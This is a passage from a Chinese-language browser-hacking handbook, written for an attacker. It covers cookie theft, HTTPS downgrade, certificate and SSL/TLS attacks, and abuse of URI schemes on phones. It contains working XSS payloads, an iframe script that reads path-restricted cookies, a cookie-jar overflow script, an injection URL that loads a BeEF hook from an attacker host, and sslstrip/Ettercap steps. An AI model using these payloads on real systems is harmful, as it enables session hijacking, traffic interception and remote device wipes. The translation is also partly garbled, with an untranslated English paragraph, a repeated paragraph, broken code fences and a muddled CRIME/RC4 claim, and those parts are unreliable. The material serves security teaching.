在这段示例中，第一个测试会检查隐藏变量，并根据浏览器将平台设置到浏览器变量中。随后，在确定为浏览器平台后，会检查 Firefox 中使用模板 HTML 元素的情况。该特性在 Firefox 22 中引入，因此其存在表明版本至少为 22。或者，如果没有模板元素，则可以推断版本早于 22。

可见性特性是在 IE 10 中添加的，因此可以确认被测试的浏览器至少为 IE 10。撰写本文时，IE 11 尚未发布，但这里是一个很好的位置来添加 IE 11 测试，或者选择仅在 IE 9 或 8 中存在的其他特性并在此添加额外的测试。

像 [`caniuse.com`](http://caniuse.com) 和 [`html5test.com`](http://html5test.com) 这样的网站是非常好的资源。它们允许你比较浏览器版本和平台版本，以帮助创建这类检查。

# 绕过 Cookie 防护

和它们美味的同类一样，Cookie 是让使用网页变得更甜蜜的小吃。Cookie 对于 Web 开发者有许多好处，但同样也是攻击者的优势。本节更深入地探讨 Cookie，探讨它们为何有用，它们的工作原理以及它们在 Web 事务中呈现的样子。你还可以了解如何在更复杂的浏览器攻击中滥用 Cookie。

Cookie 是一个简单的机制，用于在浏览器内存储数据。Cookie 所存储的数据正是它们有趣的所在。Cookie 用于多种场景，从存储会话标识符（这样当你访问网站时，网站会记住你是谁）到存储最近操作的会话数据。Cookie 还包含一个有效期属性，指示其有效时间，范围从秒到遥远的未来。

Cookie 可以跨浏览器重启保持存在，也可以在浏览器关闭时立即删除。Cookie 存储区（Cookie jar）负责维护所有这些 Cookie，它是由 Web 应用程序维护的本地浏览器数据库，其中包含应用程序设置的 Cookie 信息。

Web 应用请求浏览器在特定时间内存储一段信息。当浏览器重新访问在 Cookie 作用域内的页面时，浏览器会在每次 HTTP 请求中携带 Cookie。这使得浏览器能够识别重复访问的特定用户，并用于广告跟踪、记住你的姓名并在你访问时向你打招呼等用途。

## 理解结构

Cookie 数据在浏览器和 Web 应用之间双向传输。要在浏览器中设置 Cookie，应用必须发送一个 Set-Cookie 响应头，其中包含 Cookie 的详细信息，包括：

*   Cookie 的名称

*   Cookie 的值

*   Cookie 失效的时间

*   Cookie 适用的路径

*   Cookie 适用的域

*   其他 Cookie 属性

本节将探讨 Set-Cookie 请求的不同属性，帮助你理解随后的 Cookie 攻击。

在开始之前，我们编写一个示例 Ruby 页面，它会设置两个 Cookie，然后在屏幕上打印它们的值。下面的代码设置了两个 Cookie：一个会话 Cookie（没有设置失效日期），以及一个持久 Cookie（失效时间为 7 小时）。代码还为每个 Cookie 设置了 HttpOnly 标志，并且 Cookie 适用于整个 browserhacker.com 域：

```
require 'rubygems'
require 'thin'
require 'rack'
require 'sinatra'
require 'json'

class CookieDemo < Sinatra::Base
  get "/" do
    response.set_cookie "session_cookie", {:value => 'yes',
      :domain => 'browserhacker.com', 
      :path => '/' ,  :httponly => true}
    response.set_cookie "persistent_cookie", {:value => 'yes',
      :domain => 'browserhacker.com', 
      :path => '/' , :httponly => true ,
      :expires => Time.now + (60 * 60 * 7) }
    "\n" +  request.cookies.to_json + "\n\n"
  end
end

@routes = {
    "/" => CookieDemo.new
}

@rack_app = Rack::URLMap.new(@routes)
@thin = Thin::Server.new("browserhacker.com", 4000, @rack_app)

Thin::Logging.silent = true
Thin::Logging.debug = false

puts "[#{Time.now}] Thin ready"
@thin.start
```

你可以使用 curl 查看 Cookie 如何被发送。例如：

```
curl -c cookiejar -b cookiejar -v http://browserhacker.com 
```

执行后，Cookie 会被存储在 cookiejar 文件中，随后的请求会使用该文件。下面的图示（Figure 6-11）展示了如果多次发送相同请求会发生什么：

 start figure 

**Figure 6-11:** 设置并发送 Cookie


 end figure 

如所示，Cookie 以 `cookiename=value` 形式在请求中发送，字段之间用分号（;）分隔。当应用发送 Cookie 时，每个 Set-Cookie 都占据单独一行。会话 Cookie（session_cookie）和持久 Cookie（persistent_cookie）几乎相同，唯一的区别是会话 Cookie 没有 Expires 属性，而持久 Cookie 的 Expires 时间比会话 Cookie 晚 7 小时。

## 理解属性

Cookie 属性帮助确定 Cookie 何时应返回到服务器以及 Cookie 应该存活多久。这些属性的组合旨在限制用户受到攻击的暴露时间，并确保数据在需要时不再保留。正如开发者需要理解这些属性如何影响用户与应用的交互一样，你也需要了解它们的功能。

### 理解 Expires 属性

Expires 属性帮助浏览器确定 Cookie 应保留多久。Cookie 可以跨浏览器重启保持存在，也可以在浏览器关闭时立即自毁。若不设置 Expires 属性，则可以保证 Cookie 永不会写入磁盘，浏览器关闭后数据即被销毁。这常用于登录会话等不希望数据跨重启保存的场景。

在用户跟踪场景中，会话 Cookie 并不理想。如果应用希望每次用户返回时都能识别其身份，持久 Cookie 更合适。持久 Cookie 设置一个在未来某一时刻失效的日期，失效时间可从几秒后到非常遥远的未来，使 Cookie 存活时间长于用户。

了解 Cookie 类型在进行会话窃取攻击时尤为重要。会话时长和会话超时值决定了你可以维持访问的时间长度。短的会话超时即使 Cookie 生命周期较长，也会限制其可用性。对于浏览器攻击，理解这些细节很重要。

### 理解 HttpOnly 标志

HttpOnly 标志可以防止 Cookie 被 JavaScript 和其他脚本语言访问。该标志告诉浏览器仅通过 HTTP 协议传输 Cookie，且不在文档对象模型（DOM）中可访问。这能够阻止 XSS 攻击将 Cookie 数据发送到外部，也能防止在渲染的 HTML 代码中修改 Cookie。我们在此基础上延伸之前的代码示例，进一步探讨该标志。


-   [Ruby 脚本](https://example.org) 设置了两个带有 HttpOnly 标记的会话 Cookie，可以通过在 DOM 中尝试访问 Cookie 来验证。打开 Firebug 控制台，在命令编辑器中输入 document.cookie 并点击运行。这应该返回一个空值，类似于 Figure 6-12。

 start figure 

**Figure 6-12:** 使用控制台查看 Cookie


 end figure 

-   为了验证相反的情况，需要禁用 HttpOnly 标记。为此，修改 setcookie 函数的最后一个参数，使其不启用 HttpOnly 标记。更新后的代码如下：

```
```class CookieDemo < Sinatra::Base
  get "/" do
    response.set_cookie "session_cookie", {:value => 'yes',
      :domain => 'browserhacker.com',
      :path => '/' }
    response.set_cookie "persistent_cookie", {:value => 'yes',
      :domain => 'browserhacker.com',
      :path => '/', :expires => Time.now + (60 * 60 * 7) }
    "\n" +  request.cookies.to_json + "\n\n"
  end
end
```

```
-   重新加载页面后，再次在 Firebug 控制台中执行 document.cookie 命令。此次返回的结果应包含 Cookie 信息，如 Figure 6-13 所示。

 start figure 

**Figure 6-13:** 使用控制台查看不带 HttpOnly 的 Cookie


 end figure 

-   这说明如果能在浏览器中诱导任意 JavaScript 代码执行，就可以在没有 HttpOnly 标记的情况下访问 Cookie。即使启用了 HttpOnly，也可以通过其他方式使用这些 Cookie，更高级的攻击在第 9 章“通过浏览器代理”部分有所讨论。

### 理解 Secure 标记

假设在 browserhacker.com 的电子商务应用需要跟踪购物车中的商品，并在用户访问结账页面后进行一次身份验证以完成交易。此时，使用 Secure 标记可以让 Cookie 仅通过 HTTPS 版本的站点传输，从而进一步保护结账功能的 Cookie。

Secure 标记的作用是只在 SSL 加密连接上发送 Cookie，这有助于防止 Cookie 在不当场景下被滥用，也能防止在窃听攻击中 Cookie 被泄露。

### 理解 Path 属性

Path 属性配合 Domain 标记共同决定 Cookie 的适用范围。大型应用通常需要更宽的域或路径，以便在站点的多个位置跟踪用户。

让我们回到电子商务应用在 browserhacker.com。理想情况下，应该使用两个 Cookie：一个会话 Cookie 用于跨所有 browserhacker.com 域跟踪用户；另一个会话 Cookie 在用户认证后，仅限于 /checkout 路径，用于跟踪结账过程中的用户。通过限制 Cookie 的路径并结合 HttpOnly 等安全功能，可以限制更敏感信息的暴露范围。

实际上并非如此。如果顶层内容易受 XSS 利用，攻击者可以通过注入的 JavaScript 在 IFrame 中打开受限路径，从而读取该 Cookie。即使子 IFrame 受同源策略（SOP）保护，Cookie 仍然会被暴露。下面的章节将展示此现象。

### 绕过 Path 属性限制

基于前面的 Ruby 代码示例，我们构建了一个新应用，该应用公开两个路径，分别设置不同的 Cookie。根路径（/）设置名为 parent_cookie 的通用 Cookie，而 /checkout 路径设置名为 checkout_cookie 的更敏感 Cookie。代码在根路径中包含一个 XSS 漏洞，即 test 参数未被妥善处理：

```
require 'rubygems'
require 'thin'
require 'rack'
require 'sinatra'
require 'json'

class CookieDemo < Sinatra::Base
  get "/" do
    response.set_cookie "parent_cookie", {:value => 'yes',
      :domain => 'browserhacker.com', 
      :path => '/' }

    "Test parameter: " + params['test']
  end

  get "/checkout" do
    response.set_cookie "checkout_cookie",
        {:value => 'RESTRAINED TO THIS PATH',
         :domain => 'browserhacker.com', 
         :path => '/checkout' }
  end

end

@routes = {
    "/" => CookieDemo.new
}

@rack_app = Rack::URLMap.new(@routes)
@thin = Thin::Server.new("browserhacker.com", 4000, @rack_app)

Thin::Logging.silent = true
Thin::Logging.debug = false

puts "[#{Time.now}] Thin ready"
@thin.start
```

-   假设 /checkout 路径没有 XSS 漏洞，则无法通过该路径窃取 checkout_cookie。但根路径存在 XSS 漏洞。攻击示例使用 alert() 函数演示 Cookie 暴露，实际攻击中会将 Cookie 发送到受控服务器。如果提交以下数据，parent_cookie 将被泄露：

```
/?test=hi<script>alert(document.cookie)%3b</script>
```

-   该请求的输出如 Figure 6-14 所示。

 start figure 

**Figure 6-14:** 根路径 Cookie 暴露


 end figure 

-   要从 /checkout 路径窃取 Cookie，需要构造指向该路径的 IFrame。下面的 JavaScript 创建 IFrame 并加载后披露 Cookie：

```
iframe=document.createElement('iframe');
iframe.src='http://browserhacker.com:4000/checkout';
iframe.onload=function(){
  alert(iframe.contentWindow.document.cookie);
};
document.body.appendChild(iframe);
```

-   将其封装为单一负载，在 IFrame 完全加载时执行，可转换为：

```
/?test=hi<script>iframe=document.createElement('iframe')%3b
iframe.src='http://browserhacker.com:4000/checkout'%3biframe
.onload=function(){alert(iframe.contentWindow.document.cookie
)}%3bdocument.body.appendChild(iframe)</script>
```

-   执行此 JavaScript 的结果如 Figure 6-15 所示。

 start figure 

**Figure 6-15:** 受限路径 Cookie 暴露


 end figure 

-   该示例凸显了 Path 属性作为防护 Cookie 的方法存在缺陷，尤其是在存在 XSS 或其他 Web 应用漏洞时。即便启用了 HttpOnly 标记，也无法阻止通过 XSS 漏洞将流量代理到受害者浏览器，从而在“通过浏览器代理”章节（第 9 章）中描述的方式，利用 XSS 漏洞进行更高级的攻击。

### 溢出 Cookie 存储（Cookie Jar）

大多数网站期望设置 Cookie 后，它会以原来的状态返回。当站点设置 Cookie 时，它会被加入到 Cookie 存储（浏览器本地数据库），类似于真实的 Cookie 罐。该罐通常有容量限制。即使因 HttpOnly 等原因无法直接修改 Cookie，仍可能影响浏览器返回的 Cookie 信息。

在可以在浏览器中创建 Cookie 的场景下，Alex Kouzemtchenko12、Chris Evans13（以及更近期的 John Wilander14）发现，可以通过溢出 Cookie 存储来删除较旧的 Cookie。随后用新 Cookie 替换已有 Cookie，从而控制用户与站点的交互。下面是一个示例：


```ruby
require 'rubygems'
require 'thin'
require 'rack'
require 'sinatra'
require 'json'
```
```ruby
class CookieDemo < Sinatra::Base
  get "/" do
    link_url = "http://www.google.com"
    if !request.cookies['link_url'] then
       response.set_cookie "link_url", {:value => link_url,
         :httponly => true}
    else
       link_url = request.cookies['link_url']
    end
    '<A HREF="' + link_url + '">Secret Login Page</A>
<script>
function setCookie()
{
  document.cookie = "link_url=http://blog.browserhacker.com";
  alert("Single cookie sent");
}
function setCookies()
{
  var i = 0;
  while (i < 200)
  {
    kname = "test_COOKIE" + i;
    document.cookie = kname + "=test";
    i = i + 1;
  }
  document.cookie = "link_url=http://browserhacker.com";
  alert("Overflow Executed");
}
</script>
<BR>
<input type=button value="Attempt Change" onclick="setCookie()"><BR>
<input type=button value="Spam Cookies" onclick="setCookies()">
```
```ruby
  end
end
```
```ruby
@routes = {
    "/" => CookieDemo.new
}
```
```ruby
@rack_app = Rack::URLMap.new(@routes)
@thin = Thin::Server.new("browserhacker.com", 4000, @rack_app)
```
```ruby
Thin::Logging.silent = true
Thin::Logging.debug = false
```
```ruby
puts "[#{Time.now}] Thin ready"
@thin.start
```


-   [当你需要攻击 HTTPS 通信时，特别是当会话 Cookie 只能通过 Secure 标记提交时会发生什么？] 你有若干处理 HTTPS 页面的方法，但其中三种是相对容易实现的。让我们来探讨 HTTP 降级攻击、证书攻击以及 SSL/TLS 攻击。

## Downgrading HTTPS to HTTP

HTTPS 加密流量在传输过程中（理论上）除非你拥有解密密钥，否则无法查看。这意味着除非使用公开已知的方法，否则无法在传输中进行篡改和查看流量。这就是降级攻击出现的场景。

HTTP 降级攻击的目标是阻止用户访问 HTTPS 站点，或通过其他攻击将用户推回到 HTTP 版本的站点。如果你能强制浏览器访问 HTTP 版本的站点而不是 HTTPS 版本，你就可以在传输过程中查看敏感信息。你可以通过两种主要方式将请求从 HTTPS 重写为 HTTP：第一种是在网络上拦截数据并修改请求；第二种是在浏览器内部修改请求。

当浏览器从 HTTP 过渡到 HTTPS 时，拦截网络流量并进行重写是降级到 HTTP 的最简便方式。一些 Web 应用在收到 HTTP 请求后会返回 302 响应，将浏览器重定向到站点的 HTTPS 版本。这正是你需要掌控并介入的关键点。你可以使用像 sslstrip17 这样的工具配合像 Ettercap 这样的 ARP Spoofing 工具来完成此操作，如第 2 章的“ARP Spoofing”部分简要说明。此过程相对简单，唯一的前提是服务器与客户端之间不存在双向认证（即 SSL 客户端证书）。

通过拦截网络流量并检测过渡（如 Figure 6-19 所示），你可以将所有 HTTPS 通信重写为 HTTP。在此情况下，你可以在本地管理 HTTP/HTTPS 过渡，从而查看所有应受保护的流量。目标只会看到 HTTP 流量，绝不会收到 HTTPS。结果是你与服务器通过 HTTPS 通信，而与目标浏览器通过 HTTP 通信。你实际上充当了加密终点。

 start figure 

**Figure 6-19:** 一个 Facebook 的 HTTP 到 HTTPS 重定向示例


 end figure 

结合 sslstrip 和 Ettercap 还有其他好处。例如，你可以使用 Ettercap 过滤器在实时中操纵流量。在某些情况下，Web 应用开发者可能实现了自定义防护措施，虽然这类防御措施很少见，但它们可能阻碍可靠的 HTTP 降级。

这就是 Ettercap 的作用所在。它可以在实时中重写内容，以中和开发者的防御措施。提高此攻击可靠性的最简便方式是重写链接，指向恶意站点的副本，并希望用户不会察觉。说实话——如果你并没有真正阻止目标访问他们喜欢的搞笑猫咪站点，他们又会注意到吗？

第二种 HTTP 降级攻击是通过 JavaScript 在文档内部重写链接。目标是修改 DOM，使指向 HTTPS 的链接被改为 HTTP。对于存在 XSS 漏洞且已被钩选的站点，这是最简便的选择。其缺点是许多站点已通过仅通过 HTTPS 传输受保护内容来防御此攻击，这限制了直接重写内容的可能性。

为了进一步探讨，让我们查看一个存在 XSS 漏洞的示例页面。该页面有一个名为 lang 的输入参数，用于指定不同语言。该参数易受 XSS 攻击，因而可以用于将 BeEF 钩子注入目标浏览器：

```
require 'rubygems'
require 'thin'
require 'rack'
require 'sinatra'
require 'json'

class InjectDemo < Sinatra::Base
  get "/" do
    lang = request['lang'] || "en_US";
"
<div align=center>
To login, go to our secure login page at
<A HREF='https://servervictim.com/login?lang=#{lang}'>
https://servervictim.com/login
</A>
</div>"
  end
end

@routes = {
    "/" => InjectDemo.new
}

@rack_app = Rack::URLMap.new(@routes)
@thin = Thin::Server.new("servervictim.com", 4000, @rack_app)

Thin::Logging.silent = true
Thin::Logging.debug = false

puts "[#{Time.now}] Thin ready"
@thin.start
```

通过操纵 lang 变量，BeEF 钩子可以被注入。默认 lang 请求如 Figure 6-20 所示。

 start figure 

**Figure 6-20:** 未发生 XSS 的登录页面源码


 end figure 

要创建 BeEF 钩子，你需要编写一个注入语句，它会关闭 A 标签、添加脚本，并确保链接仍然显示。下面的 URL 示例会将 BeEF 钩子注入页面：

```
http://servervictim.com:4000/?lang='><script
src="http://browserhacker.com:3000/hook.js"></script>
```

一旦浏览器被 BeEF 钩选，你就可以将页面从 HTTPS 降级为 HTTP。在浏览器文件夹的 Hooked Domain 子文件夹中，有一个名为 “Replace HREFS (HTTPS)” 的模块。该模块会将页面上所有 HTTPS 链接替换为 HTTP 链接，如 Figure 6-21 所示。

 start figure 

**Figure 6-21:** BeEF 中的 HTTPS 降级模块


 end figure 

模块运行后，除非用户仔细观察，否则变化不会很明显，因为 HTTPS 链接被替换为 HTTP 链接。敏锐的用户可能会注意到左下角的链接现在显示为 HTTP（如 Figure 6-22），但如果他们查看文档源码，页面仍显示为 HTTPS。

 start figure 

**Figure 6-22:** 新页面显示左下角的链接为 HTTP


 end figure 

为了降低被检测的可能性，你可以在 <a> 元素上添加 onclick 事件，而不是直接修改 href 内容。这样在用户查看浏览器底部时，就不会察觉到 https:// 已经消失。

这显然是一个简化的示例，但同类攻击几乎可以在任何存在 XSS 漏洞的页面上使用，而不仅仅是 URL。虽然 BeEF 并不自动执行所有这些操作，但仍可使用 BeEF 的 “Raw JavaScript” 模块将简单的 JavaScript 推送到目标浏览器。

## 攻击证书

证书攻击主要有两种变体。第一种是替换一个证书为另一个，操作简单但目标可见。第二种更为复杂，利用浏览器漏洞呈现一个会被浏览器错误信任的证书。该方法依赖于浏览器中存在的证书处理缺陷。虽然用户可能不会察觉到攻击正在进行，但实施难度更高。

### 使用假证书


创建假证书很容易，许多攻击工具已经包含假证书。无论你选择使用代理、Ettercap 或其他工具，思路都是一样的。你向目标浏览器展示一个假证书，并充当其通信的中间点。别忘了，由于你创建了证书，你也拥有解密密钥。因为你可以解密 HTTPS 流量，所以可以完全拦截并篡改数据。

显而易见的缺点是用户会看到一个弹出消息。该消息表明证书不适用于该站点。在这种攻击中，真正的问题是：你相信用户会在看到弹出消息后三思而后行吗？在某个时刻，每个人都曾在明明知道不该点击的情况下，点击了不受信任的证书对话框。如果有人在至理名言告诉你他们从未这样做过，那就让他们立刻回到他们的阿米什社区！

### 利用有缺陷的证书验证

另一种证书攻击利用了浏览器管理证书验证的缺陷。2013 年，这一攻击在多个 iPhone 应用中被发现。

Nick Arnott 发表了研究，指出许多流行的 iPhone 应用未检查证书是否有效。通过展示自签名证书或任何证书，这些应用不会提示用户服务器不可信。类似的安全问题也发现于各种 Android 应用中。例如，斯坦福大学和奥斯汀大学的研究小组发现 Chase 移动银行应用存在类似缺陷。利用这一证书处理漏洞，可以通过提供自签名证书并监控连接来获取凭证、信用卡数据或其他信息。

 arguably the most notable of flawed certification validation vulnerabilities was Moxie Marlinspike’s null character exploit. This occurred when certain registrars would allow certificate requests with null characters. This doesn’t sound too malicious on its own, but when combined with the fact that the browsers were using C-based string functions without additional checks on the values, it became much more interesting.

 当字符串检查函数查找数据时，它们会将 null 字符视为字符串的终止符。例如，正常的 "hello" 表示为 "hello\\0"，其中 \\0 是 null 字符的转义序列。

通过创建名为 "www.google.com\\0.browserhacker.com" 的证书，注册机构会认为这是 browserhacker.com 的一部分，并知道该域名所有者可以为该域请求证书。然而，由于 null 前缀，当浏览器进行验证时，它会成功验证为 www.google.com。这将允许恶意人员创建包含 null 字符的证书，以冒充合法网站。

由于这些证书来自受信任的注册机构，浏览器不会质疑证书的有效性，也不会显示任何指示问题的弹出消息。这种攻击可以实现 SSL 窃听、篡改或其他攻击，而无需向目标表明任何异常。

这些攻击利用了浏览器中有缺陷的证书处理漏洞。尽管本文讨论的具体漏洞现已修复，研究人员仍在实现中发现问题。最终，这取决于在任何特定时间找到符合你特定情况的弱点。

## 攻击 SSL/TLS 层

安全套接层 (SSL) 及其后继的传输层安全 (TLS) 是安全网页浏览所使用的加密协议。像许多其他技术软件实现一样，它们也经历了自身的安全问题。利用这些弱点将允许披露通信通道的全部（或至少部分）内容。这些 SSL/TLS 层攻击通常不会在合理的时间内解密完整消息。但并非全然失望，因为它们可能揭示关键的 Cookie 数据或其他敏感信息，从而可用于进一步利用。在本文撰写时，已有三种获得知名度的攻击：BEAST 攻击、CRIME 攻击和 Lucky 13 攻击。

BEAST 攻击是首个高知名度的 SSL 攻击，它利用了 Cipher-Block-Chaining (CBC) 加密模式的弱点。通过利用这一 SSL 漏洞，可以解密加密消息的部分内容。利用此弱点，可以在约两秒钟内揭示加密消息的一块内容。真实的利用此攻击需要针对特定用户进行定位，并且需要几分钟才能获得消息的一小部分。攻击者可以在几分钟到几小时内确定会话 Cookie，以劫持会话。

CRIME 攻击是 BEAST 攻击的创建者（Juliano Rizzo 和 Thai Duong）随后的一次攻击。该攻击是 BEAST 释放后主要防御措施的回应。许多浏览器开发团队通过转向弱加密算法到 RC4 类加密算法来解决 BEAST 弱点。因此，CRIME 攻击应运而生，专门针对这类加密算法。它利用了 TLS 压缩的弱点来揭示数据。通过 JavaScript 和重复的网页请求，数据可以逐字节地确定。攻击者如果足够积极，结果类似于 BEAST 攻击。

最后值得一提的是 Lucky 13 攻击。该攻击使用与 BEAST 攻击类似的方法。然而，它利用了对 CBC 的填充 oracle 攻击来帮助猜测数据。与 BEAST 和 CRIME 类似，使用 JavaScript 大幅加速了过程，但仍仅适用于单个目标。

* * *

**什么是填充 oracle 攻击？** 你可能在想，如何能够通过填充 oracle 数据库进行攻击？这些攻击实际上与 Oracle 产品或系统（包括其数据库系统）无关。填充 oracle 攻击是解密过程中的信息泄露结果。虽然泄露的信息可能不是完整的明文，但在某些情况下，仍有可行的方式确定内容。深入的密码学攻击技术超出了本书的范围，但如果你感兴趣，有大量公开研究可供深入探讨。

* * *

尽管加密层漏洞能够有效展示 SSL/TLS 实现的弱点，但它们对于大规模攻击并不特别有用。要在合理的时间内执行这些攻击，你还需要找到能够在网站上实现 JavaScript 注入的弱点。不过，如果你有耐心并且可以长时间观察目标，即使是那些看似安全的网站仍可能受到攻击。

# 滥用方案

URI 方案是 URI 或 URL 中冒号 (:) 字符之前的第一部分。URI 方案在浏览器上下文中具有双重用途。首先，方案是一种方法，允许不同协议通过浏览器访问，例如 FTP 或 HTTPS。如果一个 URL 以 ftp: 开头，浏览器知道应使用 FTP 协议而非 HTTP 协议来建立连接。


-   第二种方案的功能是允许浏览器启动不同的本地行为。这有时包括打开新的应用程序。mailto: 方案就是一个例子。如果 HTML 网页中的锚标签包含 mailto: 链接，点击时，浏览器通常会打开外部应用程序来发送电子邮件。

## 滥用 iOS

当浏览器使用特定方案在另一个应用程序中执行操作时，可能会为你提供额外的攻击向量。这在 Nitesh Dhanjani 于 2010 年发表的关于 Apple iOS 中 URI 方案不安全处理的研究中被突出显示。23

Dhanjani 的研究探讨了原生 iOS 协议处理例程，例如 tel: 处理器。如果 iOS Safari 浏览器请求一个 URL，例如 tel:613-966-94916，电话应用程序将启动并提示用户开始拨打建议的号码，如图 6-23 所示。Figure 6-23

 start figure 

**Figure 6-23:** iOS 处理 tel: 方案


 end figure 

这一例子未必表明实现不安全，因为电话应用程序仍会在继续之前提示用户确认通话。你可能会运气好，目标用户意外点击呼叫选项。但这非常不太可能，让我们再看看另一个例子。

Skype 并未随 iOS 打包，但它使用自己独特的方案。为了让其他应用程序利用自定义 URI 方案，Apple 在其 Info.plist 规范中包含 CFBundleURLTypes 数组类型。这可以在下面的 Info.plist 文件片段中看到：

```
<key>CFBundleURLTypes</key>
  <array>
    <dict>
      <key>CFBundleURLName</key>
        <string>com.skype.skype</string>
      <key>CFBundleURLSchemes</key>
        <array>
          <string>skype</string>
        </array>
    </dict>
  </array>
```

Skype 不仅将此方案暴露给浏览器，还接受额外参数。例如，如果 URL 以 ?call 结尾，Skype 不仅会启动，还会立即尝试拨打号码，而无需用户干预。浏览器只需加载类似 [skype://613-966-94916?call](http://skype://613-966-94916?call) 的 URL 即可在 iOS 设备的前景中启动 Skype。要利用此功能，只需在网页中包含包含这些特定 URL 的 IFrame 即可。你可以在 [`browserhacker.com`](https://browserhacker.com) 观看此漏洞的演示视频。

Skype 在 3.0 版本后解决了此问题，现在会提示用户是否继续执行操作，如图 6-24 所示。Figure 6-24

 start figure 

**Figure 6-24:** iOS 在 Skype 内尝试拨打号码


 end figure 

Dhanjani 的研究还探讨了分析 Info.plist 文件的几种方法，包括直接从越狱的 iOS 设备中复制它们，或通过 iTunes 备份提取应用程序的 Info.plist 文件。要从 iTunes 备份中提取应用程序的 Info.plist 文件，请执行以下步骤：

Level1 **1.** 找到想要调查的 .ipa 文件。在 OS X 上，它们通常位于 ~/Music/iTunes/iTunes Media/Mobile Applications。在 Windows 上，它们通常位于 C:\\Users\\<user>\\My Music\\iTunes\\iTunes Media\\Mobile Applications\\。 **2.** 将 <application>.ipa 文件复制到其他位置，并将其重命名为 .zip 文件。 **3.** 解压该文件。 **4.** 进入 Payload/<application>.app/ 文件夹。 **5.** 使用 plutil 实用工具将 Info.plist 文件转换为 XML 格式。例如，plutil -convert xml1 Info.plist。在 Windows，plutil.exe 位于 C:\\Program Files\\Common Files\\Apple\\Apple Application Support\\。 

/Level1

iOS 设备上有大量应用程序，许多可能会引入不寻常的 URI 方案处理例程。有了这种 Info.plist 查询技术，你可以发现 iOS 浏览器可能使用的其他方案。可能会发现与 Skype 初始不安全处理 skype:// 方案类似的漏洞。

## 滥用 Samsung Galaxy

不结构化补充服务数据 (USSD) 协议提供了一种方法，让 GSM 移动电话能够直接与用户的电信提供商通信。该服务通常在预付费移动电话计划中用于查询剩余余额，或甚至用于充值手机信用。当然，USSD 还有其他用途，如移动银行，或更新 Twitter 或 Facebook。

虽然许多 USSD 代码可以发起与电信提供商的实时连接，但有些代码在手机本身上被分配了特定操作。例如，在大多数智能手机中，如果你打开电话应用并输入 *#06#，通常不需要拨号，你的 International Mobile Station Equipment Identity (IMEI) 会显示。Figure 6-25 展示了 Android 手机上的 IMEI，Figure 6-26 展示了 iPhone 上的相同功能。

 start figure 

**Figure 6-25:** Android IMEI


 end figure  start figure 

**Figure 6-26:** iPhone IMEI


 end figure 

Ravishankar Borgaonkar 的研究表明，某些 Android 手机会在没有任何用户交互的情况下执行 USSD 代码。25 该漏洞存在于 Android 手机处理 tel:// URI 方案的方式中。攻击非常类似于 Dhanjani 发现的 iOS 漏洞。然而，与 iOS 手机不同，Android 手机会立即执行 USSD 操作，而不会先启动电话应用程序并询问用户拨号。

Borgaonkar 的研究进一步揭示了 Android 手机接收 USSD 代码并随后执行它的多种方式。许多依赖于关联应用程序的默认行为。通常，应用程序会检测到 tel:// URI 方案的存在，并直接将信息传递给相应的应用。这包括：

*   在网站中嵌入恶意 IFrame，指向特定的 tel:// USSD 代码。

*   在二维码中嵌入 tel:// USSD 地址。

*   在 NFC 标签中嵌入 tel:// USSD 地址。

观察之前讨论的 USSD 代码 *#06#，这种问题的影响可能被视为微不足道。如果你能导致 IMEI 代码在目标手机上显示，这有什么意义呢？问题在于 Borgaonkar 指出的一个问题：某些 USSD 代码可以用于尝试输入 SIM 码。

在许多情况下，如果错误输入 SIM 码三次，SIM 将被锁定，直到输入 PIN Unlocked Key (PUK) 码才能解锁。基于此攻击，如果输入无效的 PUK 码 10 次，SIM 卡本身将被失效，从而不可用。利用此漏洞意味着目标用户需要自费更换新 SIM 卡，并且在新 SIM 卡安装前，其手机将无法使用。

Borgaonkar 还展示了另一个 USSD 代码，该代码会影响特定 Samsung 手机，并触发设备的恢复出厂设置。完整的 USSD 代码列表请参阅 XDA Developers 论坛：[`forum.xda-developers.com/showthread.php?t=1953506`](http://forum.xda-developers.com/showthread.php?t=1953506)


-   [不安全的方案处理的影响始终是一个持续的问题，因为越来越多的应用提供新的自定义 URI 处理规则和方法。文中讨论的例子只是可用的 URI 方案中的少数几种。你可能会惊讶地发现，W3C 列出了 150 多种正在 Internet 上使用的不同方案。显然，你拥有巨大的 URI 方案攻击面可以进行探索。

# 攻击 JavaScript

尽管本章主要讨论浏览器内的漏洞利用，但你不能真的讨论浏览器而不提及 JavaScript。JavaScript 在浏览器中的演变是时代变化的一个良好例子。

截至 Firefox 版本 23，禁用 JavaScript 的选项已被移除（但仍可通过 `javascript.enabled` 标志在 about:config 中启用）。现在普通使用 Firefox 的用户（未安装 NoScript 扩展）别无选择，只能启用 JavaScript。JavaScript 与浏览器之间的界限日益模糊。

因此，浏览器各类攻击中 JavaScript 的重要性难以高估。接下来的章节你将探讨一些利用 JavaScript 自身的方法。

## 攻击 JavaScript 中的加密

Web 应用越来越多地在客户端实现功能，旨在通过浏览器和 JavaScript 创建强大的应用。这意味着敏感功能从服务器端移动到浏览器已不再罕见。随着 HTML5、WebSocket 协议和其他现代浏览器技术的流行，审视浏览器如何保护数据以及如何将数据传输到后端服务器变得更加重要。

JavaScript 加密的一个挑战是，最终浏览器必须能够访问实际执行加密的所有代码。虽然大量工作已投入到对 JavaScript 进行混淆，但最终代码仍需浏览器可访问。

有人可能会认为，JavaScript 加密给人一种安全感，但实际上多种方法可以 compromising 它。它往往依赖于不安全的技术，且相对容易攻击这些不安全的技术。要让 JavaScript 加密被认为可行，需要进行重大的改造，这并非易事。

### 不信任 Web 应用

开发强大的 JavaScript 加密面临诸多阻碍，最主要的是浏览器与 Web 应用之间的信任关系复杂。我们来“颠覆”施尔ödinger 猫，称之为“超信任”。浏览器在特定上下文中完全信任 Web 应用，而在其他上下文中则部分信任或不信任。

一方面，浏览器不足以信任 Web 应用来存储敏感数据。另一方面，浏览器对 JavaScript 加密指令的信任是毫无疑间的。这种绑定导致的安全局面类似于我们熟悉的量子猫。

一方面，浏览器不信任 Web 应用足够存储敏感数据；另一方面，它对 JavaScript 加密指令的信任是绝对的。这种绑定使得安全局面类似于我们熟悉的量子猫。

无法在不窥探的情况下判断是否能信任 Web 应用的加密代码。因此，核心问题是：如果你不能信任应用来安全存储数据，你又如何能信任同一应用提供安全的 JavaScript 加密代码？这是实现可靠 JavaScript 加密的根本性问题，至今仍未得到解决。

### 揭露密钥

最古老的会话令牌窃取技术之一是利用跨站脚本（XSS）。该攻击注入 JavaScript 代码窃取存储在 Cookie 中的令牌。获取该令牌后，你可以在后续请求中使用它，从而冒充受害者访问应用。

